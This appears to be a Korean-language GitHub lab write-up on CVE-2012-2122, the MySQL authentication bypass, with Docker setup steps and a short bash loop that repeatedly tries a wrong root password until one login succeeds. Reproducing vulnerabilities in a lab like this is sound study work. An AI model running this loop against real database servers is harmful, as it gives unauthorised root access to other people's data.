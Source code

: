 # CVE-2012-2122

| whs 3기 유수빈

## 개요
1. **CVE 번호**: CVE-2012-2122
2. **취약점 명칭**: MySQL Authentication Bypass
3. **설명**: MySQL 서버에서 패스워드 인증 비교 시 잘못된 조건으로 인해, 낮은 확률로 비밀번호가 틀리더라도 root 계정으로 로그인 가능합니다.
4. **영향 버전**: MySQL 5.5.17 이하

## 요약
**CVE-2012-2122**는 MySQL과 MariaDB의 특정 버전에서 발견돤 **인증 우회 취약점**입니다.

- 취약한 MySQL 버전에서는 사용자의 비밀번호를 검증할 때, 내부적으로 'memcmp()'함수를 사용하여 해시값을 비교합니다.
- 해당 함수는 '-128 ~ 127' 범위의 값을 반환하지만, 해당 값을 'char'로 잘못 처리하면, '0'으로 인식하는 경우가 발생할 수 있습니다.
- 이를 통해 **1/256의 확률로 비밀번호가 틀려도 인증에 성공**하게 됩니다.
- 공격자는 이를 이용해 **임의의 비밀번호를 반복 시도**함으로써, **root 계정으로의 인증 우회를 달성하였습니다.

## 실습 환경 구성
- Docker 기반으로 구성
- 'docker-compose.yaml'을 통해 컨테이너 실행
- 컨테이너 내부에서 bash 반복문을 통해 인증 우회 취약점 재현

1. 실습 파일 생성
```bash
cd mysql-cve-2012-2122
```
- 도커 파일 생성
```bash
vi Dockerfile
```
내용 입력 후 저장

- entrypoint.sh 생성
```bash
vi entrypoint.sh
```
내용 입력 후 저장
권한 부여

- docker-compose.yaml 생성
```bash
vi docker-compose.yaml
```

2. 이미지 빌드, 컨테이너 실행
```bash
docker compose build
docker compose up -d
```

3. 컨테이너 안으로 들어가서 실행하기
```bash
docker exec -it mysql-cve bash
```
이후 아래 코드 실행

4. 컨테이너 종료
```bash
docker compose down
```

## 코드 
```bash
for i in {1..1000}; do
  echo "Try $i"
  mysql -u root --password=wrongpass -e "select user();" 2>/dev/null && echo "[+] Login Success!" && break
done
```

## 실행 결과
![cve 환경 구축](https://github.com/user-attachments/assets/cc1e767c-e72d-4d28-a655-38e3afbcba99)

운이 좋게 Try1에서 root 계정 로그인에 성공하였습니다.

## commit 내역
![cve_commit](https://github.com/user-attachments/assets/bfe3b8fe-3194-45dd-8869-1f0ff2d0bc05)

URL: https://github.com/subinyy/kr-vulhub
